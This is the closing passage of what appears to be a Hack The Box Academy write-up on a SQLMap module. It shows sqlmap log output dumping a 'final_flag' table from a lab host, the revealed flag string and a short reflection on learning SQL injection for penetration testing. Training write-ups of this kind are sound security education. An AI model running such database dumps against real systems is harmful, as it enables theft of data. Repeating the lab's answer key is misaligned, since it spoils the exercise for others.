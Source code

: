 ```ps
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+

[23:45:58] [INFO] table 'production.final_flag' dumped to CSV file '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55/dump/production/final_flag.csv'
[23:45:58] [INFO] fetched data logged to text files under '/home/htb-ac-1889896/.local/share/sqlmap/output/94.237.60.55'
[23:45:58] [WARNING] your sqlmap version is outdated

[*] ending @ 23:45:58 /2025-08-23/
```
## Result
```
HTB{n07_50_h4rd_r16h7?!}
```

# Conclusion
The ability to automate the detection and exploitation of SQLi vulnerabilities with SQLMap—from enumerating databases and tables to extracting sensitive data—is a key competency for penetration testing. This module has provided me with a solid foundation upon which I will continue to build my skills in identifying, assessing, and mitigating these types of risks in real-world applications. Without a doubt, this was an essential and directly applicable learning experience for my professional development in the field of offensive security.
